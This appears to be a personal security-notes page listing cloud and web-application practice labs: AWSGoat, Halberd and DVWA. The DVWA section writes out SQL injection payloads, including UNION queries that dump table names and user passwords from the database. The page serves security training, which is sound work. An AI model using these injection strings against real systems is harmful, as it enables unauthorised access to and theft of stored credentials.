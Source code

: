 ```yaml
---
Owner: Chris Adams
date: 
tags:
  - cloud
  - cloud-sec
  - github
layout: github
draft:
---
```


## Cloud Security

---
[[Detection Tools]]
[[Cloud Monitoring]]
### AWS

### **AWSGoat : A Damn Vulnerable AWS Infrastructure**

https://github.com/ine-labs/AWSGoat

![[quartz/content/img/awsgoat.png]]


### Halberd

[https://github.com/vectra-ai-research/Halberd](https://github.com/vectra-ai-research/Halberd)

- Halberd is an open-source security testing tool to proactively assess cloud threat detection by executing a comprehensive array of attack techniques across multiple surfaces.
- Leveraging Halberd, security teams can very quickly & easily execute attack techniques to generate telemetry and validate their detection & response capabilities via a simple intuitive web application.

_Evaluate defenses across multiple attack surfaces, including [Entra ID](https://learn.microsoft.com/en-us/entra/identity/), [M365](https://learn.microsoft.com/en-us/microsoft-365/?view=o365-worldwide), [Azure](https://learn.microsoft.com/en-us/azure/?product=popular) and [AWS](https://docs.aws.amazon.com/)._
![[quartz/content/img/halberd.png]]

---

## Web Application Testing

---

**Vulnerable Web App**

**THM**: [https://tryhackme.com/room/dvwa](https://tryhackme.com/room/dvwa)

**GitHub**: [https://github.com/digininja/DVWA](https://github.com/digininja/DVWA)

**Kali packages:** [https://www.kali.org/tools/dvwa/](https://www.kali.org/tools/dvwa/)

**SourceForge**: [https://sourceforge.net/projects/dvwa.mirror/](https://sourceforge.net/projects/dvwa.mirror/)

- **DVWA** (Damn Vulnerable Web Application)
    - PHP/MySQL web application for practice
- **SQL Injection**
    - localhost/dvwa
        - ‘ or ‘1’ = ‘1
            - displays all users and surname
        - ‘ union select @@version, null #
            - display database version
        - ‘ and 1 = 0 union select null, table_name from information_schema.tables #
            - displays all tables in information_schema
        - %’ and 1=0 union select null, concat(first_name,0x0a,last_name,0x0a,user,0x0a,password) from users #


---
Link to other Github repos on this site: [[GitHub Resources Index]]